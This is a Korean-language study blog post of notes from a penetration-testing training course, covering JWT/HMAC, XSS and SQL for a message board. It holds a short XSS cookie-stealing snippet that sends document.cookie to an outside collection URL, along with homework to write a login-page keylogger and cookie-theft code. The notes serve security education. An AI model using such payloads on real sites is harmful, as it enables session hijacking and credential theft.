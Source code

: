 ```yaml
---
layout: post
title: "[TIL] 정리"
date: 2024-11-07
last_modified_at: 
excerpt: "모의해킹 취업반 스터디 7기 4주차"
tags: [TIL]
comments: true
---
```


모의해킹 7기 4주차 - cicd

쿠키를 조작 못 하게 -> jwt
어썬ijation?
jwt token
hash값을 통해서 무결성 체크를 한다

암행어사의 마두패 같은 느낌

authorization

hmac

로그인 할 때 사용하는 sql 문에 종류가 다양하다
개행은 알겠는데
괄호는 뭐냐
필터링

# xss
공격자가 스크립트를 삽입할 수 있는 공격
피해자의 브라우저에서 공격자가 삽입한 스크립트가 실행된다

# hijack session id
```js
let cookieData = document.cookie;
```

# data send
``` js
const http = new XMLHttpRequest();
const url = 'https://normaltic.com/test.php';

http.open('GET', url);
Http.send();
Http.onreadystatechange = (e) => {
    console.log(Http.responseText);
};
```

# data send: like hacker
``` js
let cookieData = document.cookie;
let attackURL = "https://normaltic.com/getCred.php?cookie=";
new Image().src = attackURL + cookieData;
```

%3d%3d ==
==으로 끝나니까 base64일 가능성이 높겠다 <- ??? 어떤 과정을 거쳐야 이렇게 나오는 거죠???

게시판 구현 -> sql
제목, 내용, 작성자, 작성일, 조회수
게시판 글 작성: insert
게시판 글 리스트 보기: select
게시판 글 내용 읽기: select
게시판 글 수정: update
게시판 글 삭제: delete

게시판 페이징: limit (index) (count)
게시글 제목, 
where title like %var%
 = `grep *var*`

게시글 정렬
order by [column name] [asc/desc]

과제
1. ~~burp suite: ctf 문제 풀이~~ -> 블로그에 올리면 플래그만 감춰서 올려요
2. js
~~문법 (수업 노트)에 적혀져 있는 친구 공부~~
만들어 놓은 로그인 페이지 키로거 만들기
쿠키 탈취 코드 짜기
3. 게시판 구현하기
자료실 익명 게시판